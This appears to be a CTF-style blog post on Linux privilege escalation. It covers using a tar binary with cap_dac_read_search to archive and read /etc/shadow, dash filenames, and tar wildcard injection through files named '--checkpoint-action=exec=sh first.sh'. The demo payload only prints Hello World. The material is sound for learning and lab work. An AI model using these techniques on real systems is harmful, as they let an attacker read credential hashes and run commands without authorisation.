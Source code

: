 ```yaml
---
layout: post
title:  "Linux Privilege Escalation"
date:   2020-04-15 14:20:58 +0530
categories : [CTF]
tags: [linux, infrastructure]
---
```


# Table of Content
* [Linux Capabilities](#linux-capabilities)
* [`tar`](#all-about-tar)
* [`-` in filename](#dashed-filename)
* [`--` and `tar`](#double-dash-tar)

## Linux Capabilities

Refs:

* <https://www.kernel.org/doc/ols/2008/ols2008v1-pages-163-172.pdf>
* <https://www.andreasch.com/2018/01/13/capabilities/>

Let us take an example
```
student@localhost:~$ getcap -r / 2>/dev/null 
/bin/tar = cap_dac_read_search+ep
```
Because we are running this on all files of the system, there might be some files on which the current user won't have access. And, trying to access those will throw an error. So,  `2>/dev/null` is to redirect the errors to /dev/null instead of printing them on the console. It is not necessary to use, it is just a trick that most people use to avoid printing the errors.

Here, we see that `tar` program has the capability to read and search, while as a normal user we don't have the root read access, we can verify the same by trying to access the `/etc/shadow` file

```
$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

## All about tar
### Flags / Options
In order to create a .tar file we can use following flags :
```
-c, --create : create a new archive
-x, --extract, --get : extract files from an archive
-f, --file=ARCHIVE : use archive file or device ARCHIVE
-j, --bzip2 : filter the archive through bzip2
-v, --verbose : verbosely list files processed
-z, --gzip :filter the archive through gzip
``` 
### Tar & zip
Note : `-f` flag has to be used in the end, immediately preceding the destination `filename`.

```
$ tar -cvf ~/shadow.tar shadow
$ ls
shadow.tar
```
If we also want to zip the file we can use either `-z` or `-j` flag
```
$ tar -cvzf ~/shadow.tar.gz shadow
$ ls 
shadow.tar.gz
```
### Untar

In order to extract the `.tar` file we need to use `-x`
```
$ tar -xvf ./shadow.tar
$ ls
shadow
```
Now we can read the contents of the file by using `cat shadow`. It will enable us to extract the hashes of the root user password. 

## Dashed filename
Refs :
* <https://overthewire.org/wargames/bandit/bandit2.html>
* <https://dynamicparallax.wordpress.com/2015/09/22/bandit-level-1-to-level-2/>

Using `-` as a filename means stdin/stdout as a convention that a lot of programs use. When cat sees the string `–` as a filename, it treats it as a synonym for stdin.
What will happen in our case is cat `–` echoes stdin, in this case keyboard user input, to stdout, the terminal window.

```
$ echo "Hello World" > -
$ cat -
hi
hi
good day
good day
^C
$ cat ./-
Hello World
```

The other problem is that Linux command options usually start with a dash ( - ). If you try to type that filename on a command line, the command might think you’re trying to type a command option.

## Double Dash Tar
Let us create few files for archiving and a bash script for printing `Hello World`.

```
$ touch 1 2 3 4 5
$ cat first.sh 
#!/bin/sh
echo Hello World       
```
Let us create two more empty files
```
$ echo "" > "--checkpoint-action=exec=sh first.sh"
$ echo "" > --checkpoint=1
```
`checkpoint` is an optional argument in the `tar` command
```
--checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
--checkpoint-action=ACTION : execute ACTION on each checkpoint
``` 
Now, `-` or `--` in filenames are treated as arguments to the command line utilities. `tar` command, instead of reading them as files for archiving will treat them as arguments. We have seen the case of `cat` with `-filename` previously. 

The directory at this point looks like this
```
$ ls -la
total 20
drwxr-xr-x  2 student student 4096 Apr 15 22:57  .
drwxr-xr-x 42 student student 4096 Apr 15 22:34  ..
-rw-r--r--  1 student student    0 Apr 15 20:36  1
-rw-r--r--  1 student student    0 Apr 15 20:36  2
-rw-r--r--  1 student student    0 Apr 15 20:36  3
-rw-r--r--  1 student student    0 Apr 15 20:36  4
-rw-r--r--  1 student student    0 Apr 15 20:36  5
-rw-r--r--  1 student student    1 Apr 15 20:44 '--checkpoint=1'
-rw-r--r--  1 student student    1 Apr 15 20:43 '--checkpoint-action=exec=sh first.sh'
-rwxrwxrwx  1 student student   81 Apr 15 20:39  first.sh
```
Let us run the `tar` command and see the output
```
$ tar -cvf myfiles.tar *
1
2
3
4
5
first.sh
Hello World
```
We see that our bash script `first.sh` is run. If we have to see the contents of the `.tar` file
```
$ tar -tvf myfiles.tar 
-rw-r--r-- student/student   0 2020-04-15 20:36 1
-rw-r--r-- student/student   0 2020-04-15 20:36 2
-rw-r--r-- student/student   0 2020-04-15 20:36 3
-rw-r--r-- student/student   0 2020-04-15 20:36 4
-rw-r--r-- student/student   0 2020-04-15 20:36 5
-rwxrwxrwx student/student  81 2020-04-15 20:39 first.sh
```
Here, we can see that the files starting with `--` are not included into the `.tar` file.